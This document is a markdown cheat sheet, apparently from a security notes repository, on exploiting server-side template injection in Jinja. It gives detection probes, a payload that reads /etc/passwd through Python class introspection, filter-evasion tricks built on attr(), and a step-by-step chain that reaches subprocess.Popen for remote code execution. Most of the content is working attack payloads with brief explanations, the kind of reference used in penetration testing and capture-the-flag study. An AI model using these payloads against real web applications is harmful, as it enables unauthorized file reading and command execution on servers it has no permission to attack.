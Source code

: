 # SSTI Tips
## Jinja
* This targets templating engines such as Jinja(Python)
* Common delimiters to start
    * Expression
        * `{{ }}`
    * Statement
        * `{% %}`
* Some templating engines contain direct classes to execute system-level calls while others make it more difficult, requiring creative exploits.
* XSS vulnerabilities might also hint at an SSTI vulnerability
    * It is the same case
        * user-provided code entering an unsanitized field
* Discovery
    * Common discoveries to be entered in the fields
        * `{{ 7*7 }}`
            * vuln: `49`
* Common payload that may lead to RCE
    * Jinja
        * Python 2.x
            * `{{ ''.__class__.__mro__[2].__subclasses()[40]('/etc/passwd').read() }}`
                * `''` or `""` is an empty string
                * `.__class__` is asking for the class of it
                * `.__mro__` asking for the Method Resolution Order (tuple of classes)
                    * i.e.
                        ```python
                        >>> Strawberry.__mro__
                        (<class '__main__.Martini'>, <class '__main__.Alcohol'>, <class '__main__.Drinks'>,
                        <class 'object'>)
                        ```
                    * Python 2
                    * `[2]` choosing the 2nd tuple which is `<type 'object'>`
                    * Python 3
                    * `[1]`
                * `.__subclasses__` returns the sub classes of the specific value that the `mro` returned above
                * `[40]` 40th, which in Python 2 is `<type 'file'>`
                * `('/etc/passwd')` value of `file` to `.read()`
        * Filter and Evasion
            * `attr()`
                * Sample
                    ```python
                    {% set foo = "foo" %}
                    {% set bar = "bar" %}
                    {% set foo.bar = "A really different value" %}
                    {{ foo|attr(bar) }}
                    ```
                * For Jinja exploit (case where `.__` is not allowed or filtered)
                    * Sample for this:
                        ```python
                        {% set string = "ssti" %}
                        {% set class = "__class__" %}
                        {% set mro = "__mro__" %}
                        {% set subclasses = "__subclasses__" %}
                        ```
                    * then to this: (remember it is mro `[1]` for Python 3)
                        ```python
                        {% set string = "ssti" %}
                        {% set class = "__class__" %}
                        {% set mro = "__mro__" %}
                        {% set subclasses = "__subclasses__" %}
                        {% set mro_r = string|attr(class)|attr(mro) %}
                        {{ mro_r[1] }} 
                        ```
                    * In this step, within the subclasses() classes, you must find the `subprocess.Popen` as this enables RCE.
                    * It is **IMPORTANT** to note that you must manually look for the `subprocess.Popen` class for the query above (`mro[1]`) since it possibly changes for every instance/spawn/restart of the web app service or whatever is hosting the Jinja2 platform. It should now look like this: (where `[420]` possibly changes every time the service is restarted)
                        ```python
                        {% set string = "ssti" %}
                        {% set class = "__class__" %}
                        {% set mro = "__mro__" %}
                        {% set subclasses = "__subclasses__" %}
                        {% set mro_r = string|attr(class)|attr(mro) %}
                        {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
                        {{ subclasses_r[420] }}
                        ```
                    * to make for full RCE: (where `[420]` possibly changes every time the service is restarted)
                        ```python
                        {% set string = "ssti" %}
                        {% set class = "__class__" %}
                        {% set mro = "__mro__" %}
                        {% set subclasses = "__subclasses__" %}
                        {% set mro_r = string|attr(class)|attr(mro) %}
                        {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
                        {{ subclasses_r[420](["/usr/bin/touch","/tmp/PoC_Write.txt"]) }}
                        ```
